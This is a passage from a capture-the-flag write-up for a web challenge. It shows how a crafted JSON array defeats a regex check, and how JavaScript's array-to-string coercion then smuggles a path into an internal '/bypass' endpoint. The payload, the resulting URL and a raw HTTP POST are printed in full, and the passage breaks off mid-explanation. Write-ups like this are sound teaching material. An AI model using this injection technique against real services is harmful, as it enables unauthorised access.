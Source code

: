 ```javascript
["990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2","2"]
```

Since each entry has a `2`, it will bypass the regex loop.

We then get to the expression that builds the URL:

```javascript
`http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`
```

In this case the `${uuid}` expression will call `.toString()` on the array which will just join all the values using a comma.

Thus, it builds up a URL with a context path like this:

```
/api/990c5a07-3501-4aed-b271-eb6b09f67bba/bypass?z=,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2/status
```

Notice this will hit the `/bypass` endpoint with our `uuid` since it stuffs the rest of the entries (and the `/status` portion) into a query string.

## Getting the Flag

If we POST the above payload, `flagserver.js` will indeed hit the `/bypass` endpoing in `queue.js`.

We then only need to do one more (normal) POST to `/` with our `uuid`:

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 41

uuid=990c5a07-3501-4aed-b271-eb6b09f67bba
```

This is handled by the following code in `flagserver.js`:

